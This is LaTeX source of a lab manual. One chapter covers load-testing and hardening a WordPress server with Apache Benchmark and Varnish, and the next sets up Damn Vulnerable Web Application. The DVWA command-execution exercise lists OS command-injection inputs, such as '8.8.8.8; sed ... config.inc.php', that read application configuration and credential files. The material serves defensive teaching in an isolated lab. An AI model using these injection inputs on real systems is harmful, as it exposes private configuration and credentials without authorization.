 
\includegraphics[scale=0.48,angle=90]{pre-requirements-course.pdf}
 \rule{25em}{0.5pt}  
 \caption{Topics covered in preliminary course (MindMap)} 
 \label{Topics covered in preliminary course} 
\end{figure}



\chapter{Protecting Web Application Against (D)DOS Attacks}
\label{Protecting Web Application Against (D)DOS Attacks}
\section{Introduction}
\section{Pre-Requirements} 
\section{Scope}
\section{Learning Outcomes} 
\section{Setting up the Virtual Environment} 

In this lab we use two Ubuntu Linux virtual machines.
Ubuntu server 512MB RAM, NIC1 - NAT, NIC2 - HostOnly with address 192.168.56.200
Ubuntu client 1GB RAM NIC1 - NAT, NIC2 - HostOnly wid dynamic address. (probably 192.168.56.101)
Download virtual machines to local disk
\url{http://elab.itcollege.ee:8000/infra_klient_small.ova}
\url{http://elab.itcollege.ee:8000/infra_server.ova}

Import virtual machines (If your host computer has only 4GB RAM, then reduce client machine memory to 1GB)

Start both machines. 

{\small{If you got an error about host only network then open Main Menu, choose File Preferences and choose Network and add Host Only Network.}}

Username and password for both machines are student, student.

Username: student
Password: student
Student user are in sudo group and can start administrator shell with sudo command.

Log on to client and add two addresses on /etc/hosts
\begin{minted}[frame=lines,framesep=2mm]{bash}
echo "192.168.56.200	wp.planet.zz">>/etc/hosts
echo "192.168.56.200	dvwa.planet.zz">>/etc/hosts
\end{minted}

\section{Installation of the WordPress}
All following commands must executed as root user. To get root permissions in Ubuntu Server used in this lab type:

\mint[frame=lines, framesep=1mm]{bash}|sudo -i|


This lab demands installing software for that update local package cache first
\mint[frame=lines, framesep=1mm]{bash}|apt-get update|

If you have time then do system upgrade
\mint[frame=lines, framesep=1mm]{bash}|apt-get dist-upgrade|

Install apache webserver and mysql database and 
\begin{minted}[frame=lines,framesep=2mm]{bash}
apt-get install apache2 mysql-server ssh php5 php5-mysql 
apt-get install apache2-utils libapache2-mod-php5
\end{minted}

Download latest version of WordPress
\mint[frame=lines, framesep=2mm]{bash}|wget http://wordpress.org/latest.tar.gz|

Unpack tar.gz archive to  /var/www directory using tar utility.

\mint[frame=lines, framesep=2mm]{bash}|sudo tar zxvf latest.tar.gz --directory=/var/www/|

Creade new mysql database called wp and database user student. Grant all privileges on database wp to user student.

\begin{minted}[frame=lines, framesep=2mm]{bash}
mysql -u root -p
create database wp;
create user student;
GRANT ALL PRIVILEGES ON wp.* TO 'student'@'localhost' IDENTIFIED BY 'student';
quit
\end{minted}

Create new virtual host for wordpress 
\marginpar{\rule[-.9cm]{1pt}{1pt}TODO}
\mint[frame=lines, framesep=2mm]{bash}|cp /etc/apache2/sites-available/default /etc/apache2/sites-available/wp|
Change owner and group for wordpress files to ensure that web server can read and write files.
\mint[frame=lines, framesep=2mm]{bash}|chown www-data:www-data /var/www/wordpress -R|

Change root directory (DocumentRoot) for new virtualhost and add server name field (ServerName) to virtualhosts configuration file   /etc/apache2/sites-available/wp


\begin{minted}[frame=lines, framesep=2mm]{bash}
ServerName	wp.planet.zz
#DocumentRoot /var/www
DocumentRoot /var/www/wordpress
\end{minted}


To enable new virtualhost for WordPress use a2ensite utility
\mint[frame=lines, framesep=2mm]{bash}|a2ensite wp|

Change wordpress configuration file
/var/www/wordpress/wp-config-sample.php

Set correct values for defines DB\_NAME, DB\_USER, DB\_PASSWORD as:

define('DB\_NAME', 'wp');

/** MySQL database username */
define('DB\_USER', 'student');

/** MySQL database password */
define('DB\_PASSWORD', 'student');


Copy sample file to real config file:
\mint[frame=lines, framesep=2mm]{bash}|cp  -a /var/www/wordpress/wp-config-sample.php /var/www/wordpress/wp-config.php|

Reload apache configuration files:
\mint[frame=lines, framesep=2mm]{bash}|service  apache2 reload|

Go to address http://wp.planet.zz/ using web browser.

Enter values for  Site Title, username, password and an e-mail

Choose Install

\subsection{Testing Your WordPress Installation against sipler DOS attacks}


How many requests default installation will serve? (parallel connections, requests/second)
Install apache2 utils on CLIENT computer, not in the server computer.

\begin{minted}[frame=lines, framesep=2mm]{bash}
sudo apt-get update
sudo apt-get install apache2-utils
\end{minted}

For Fedora/CentOS/RH/Oracle Linux install httpd-utils package.

Execute Apache Benchmark program ab
\begin{minted}[frame=lines, framesep=2mm]{bash}
ab -c<NO_CONN> -t<TIME> http://wp.planet.zz/
\end{minted}
flag c - parallel connections
flag t - time for test

\mint[frame=lines, framesep=2mm]{bash}|ab -c600 -t20 http://wp.planet.zz/|

In last example the ab utility makes 600 parallel connections and test takes 20 seconds.
Test results
Store test results and the command line used for tests.
Write down request per second. No of failed requests and No of completed requests.

\subsection{Hardening WordPress Installation}

What is the OOM?

Disable swap (edit /etc/fstab file or use swapoff command)


\mint[frame=lines, framesep=2mm]{bash}|swapoff -a|

Disable OOM killer for MySQL database. In newer kernels write -1000 to oom\_score\_adj file.

\mint[frame=lines, framesep=2mm]{bash}|echo "-1000" > /proc/$(pidof mysqld)/oom_score_adj|
%$
For backward compatibility with old kernels (2.6.XX series) you can use oom\_adj file
\mint[frame=lines, framesep=2mm]{bash}|echo "-17" > /proc/$(pidof mysqld)/oom_adj|
%$

Documentation about proc filesystem and OOM:
\url{http://www.kernel.org/doc/Documentation/filesystems/proc.txt}

Not mandatory task: Modify mysql startup script to tune OOM score. 

WordPress Supercache
Install WordPress Supercache plugin.
Change Permalinks settings
Test cache with AB

Install Varnish HTTP cache
Change apache default port to 8080
In file /etc/apache2/ports.conf
Change 80 > 8080
Like:
NameVirtualHost *:8080
Listen 8080

Or just download new file using wget 

cd /etc/apache2
mv ports.conf /root/ports.conf.old
wget http://elab.itcollege.ee:8000/Configs/apache2/ports.conf

Change all virtual hosts to use new 8080 port using text editor or sed command.

\mint[frame=lines, framesep=2mm]{bash}|sed 's/:80>/:8080>/' -i /etc/apache2/sites-enabled/wp|


Install varnish and change varnish default port from 6081 to 80
apt-get install varnish
change /etc/default/varnish configuration file
Change line
\mint[frame=lines, framesep=2mm]{bash}|DAEMON_OPTS="-a *:6081 \ |
to
\mint[frame=lines, framesep=2mm]{bash}|DAEMON_OPTS="-a *:80 \|

This means that varnish will listen port 80 on webserver

Restart apache and varnish services

service apache2 restart
service varnish restart

Test your result using netstat command

\mint[frame=lines, framesep=2mm]{bash}|netstat -lp | grep varnish|

Test new system with AB utility.

Links:
\href{http://kaanon.com/blog/work/making-wordpress-shine-varnish-caching-system-part-1}{Making wordpress shine with Varnish caching system}
\href{http://kaanon.com/blog/varnish/making-wordpress-shine-varnish-caching-system-part-2}{Making wordpress shine with Varnish caching system part 2}
\href{http://www.google.com/producer/editions/CAowvZtX/full_circle_magazine_57_lite}
{Full Circle Magazine 57}



\chapter{Protecting an Insecure Web Application}
\label{Protecting an Insecure Web Application}

\begin{quote}
I will newer blindly copy paste commands from manuals specially when logged as root! -- Experienced IT system administrator.
\end{quote}

\section{Introduction}

The hands-on laboratory is mean to teach system administrator's how to protect insecure web application from common attacks like injection's, \gls{XSS}, \gls{CSRF}, brute force, file upload and file inclusion. Damn Vulnerable Web Application \gls{DVWA} is used as role of insecure application. Several vulnerable web application  alternatives exists \url{http://blog.taddong.com/2011/10/hacking-vulnerable-web-applications.html}


\subsection{Lab Scenario}
Lab participant acts as system administrator for small company which has several web applications. One legacy application is tremendously vulnerable for common type of attacks. Company ordered new web application to replace old and vulnerable service. However old application must survive at least few month's before being replaced. Till that time system administrator have high criticality task  to protect this vulnerable system. Blocking IP addresses is not a solution because client's requests can be originated from any location, although fixing all programming errors takes too long and new version of software was developed for that purposes.



\section{Pre-Requirements}
This hands-on laboratory is designed to students who have knowledge and skills for working with GNU/Linux command line, basic networking and HTTP(S) and understanding text editing.
\par
Students must have possibility to run at least two virtual machines with configuration seen in table ...

\begin{table}
\centering
\caption{Hardware requirements for DVWA lab}
\begin{tabular}{|c|c|}
\hline 
\rule[-1ex]{0pt}{2.5ex} Hardware & Minimal requirements \\ 
\hline 
\rule[-1ex]{0pt}{2.5ex} RAM & $>=512MB$ \\ 
\hline 
\rule[-1ex]{0pt}{2.5ex} NIC 1 & HostOnly - accessable from Host \\ 
\hline 
\rule[-1ex]{0pt}{2.5ex} NIC 2 & NAT - routed to interet \\ 
\hline 
\rule[-1ex]{0pt}{2.5ex} OS & Ubuntu Server 12.04 LTS \\ 
\hline 
\end{tabular}
\label{HW for DVWA}
\end{table}


\section{Scope}
This particular lab 
\section{Learning Outcomes}
Student knows common attack types related to web applications.
\begin{itemize}
	\item SQL Injection
	\item OS command injection
	\item  \gls{XSS}
	\item  \gls{CSRF}
\end{itemize} Student has skill to test those attacks using \gls{DVWA}.
Student knows possible mitigation methods and employ appropriate protection methods.
\section{Setting up the Virtual Environment}
\section{Installation of Damn Vulnerable Web Application}
\subsection{Introduction to DVWA}

Ensure that you have administrator rights
\begin{minted}[frame=lines,framesep=2mm]{bash}
sudo -i
\end{minted}

Update local package cache
\begin{minted}[frame=lines,framesep=2mm]{bash}
apt-get update
\end{minted}


Ensure that unzip package is installed
\begin{minted}[frame=lines,framesep=2mm]{bash}
type unzip || apt-get install unzip
\end{minted}

Install apapache web server, mysql server and php5
\begin{minted}[frame=lines,framesep=2mm,fontsize=\small]{bash}
apt-get install apache2 mysql-server ssh php5 php5-mysql libapache2-mod-php5
\end{minted}


Dowload DVWA using web get utility wget
\begin{minted}[frame=lines,framesep=2mm]{bash}
wget http://dvwa.googlecode.com/files/DVWA-1.0.7.zip
\end{minted}

\begin{minted}[frame=lines,framesep=2mm]{bash}
unzip DVWA-1.0.7.zip
mv dvwa /var/www

nano /var/www/dvwa/config/config.inc.php

$_DVWA[ 'db_user' ] = 'root';
$_DVWA[ 'db_password' ] = 'student';
$_DVWA[ 'db_database' ] = 'dvwa';
\end{minted}
%$
For save use  CTRL + X


http://$ServerIP$/dvwa/
Username : admin
Password : password
Change DVWA Security level to low (for beginners)

\begin{figure}[H] 
 \centering 
 
\includegraphics[width=0.6\textwidth]{dvwa_security_low.pdf}
 \rule{25em}{0.5pt}  
 \caption{Setting DVWA Security Level to Low} 
 \label{Setting DVWA Security Level to Low} 
\end{figure}


\begin{figure}[H] 
 \centering 
 
\includegraphics[width=0.8\textwidth]{DVWA_Main_Page.pdf}
 \rule{30em}{0.5pt}  
 \caption{Damn Vulnerable Web Application - default page} 
 \label{Damn Vulnerable Web Application - default page} 
\end{figure}

\subsection{Testing vulnerabilities}
For understanding a defence of web application a basic offensive knowledge and skills are needed. However, this lab focused on defensive methods and will not provide knowledge about different \gls{OWASP} top ten. 

\colorbox{red}{\parbox{\textwidth}{DISCLAIMER: Do not use followed methods on any computer except lab computer and only for learning propose!}}

\subsubsection{Command execution}
Read command execution material given in Command Execution menu and try and explaing following commands and results.

\begin{minted}[frame=lines,framesep=2mm]{bash}
8.8.8.8; sed 's/</UUUU/' ../../config/config.inc.php

#Find out directory and file structure of \gls{DVWA}
8.8.8.8; ls -l 
8.8.8.8; ls -l ../
8.8.8.8; ls -l ../../
8.8.8.8; sed 's/<//'  ../../../../wordpress/wp-config.php
8.8.8.8; touch /var/tmp/new_file.txt
8.8.8.8; ls /var/tmp/
\end{minted}

Try following command and explain what can describe output of following command?
\begin{minted}[frame=lines,framesep=2mm]{bash}
; grep session.cookie_httponly /etc/php5/apache2/php.ini
\end{minted}
What attack vectors are possible when cookie\_httponly is set or not?

\begin{minted}[frame=lines,framesep=2mm]{bash}
session.cookie_httponly = 1
\end{minted}

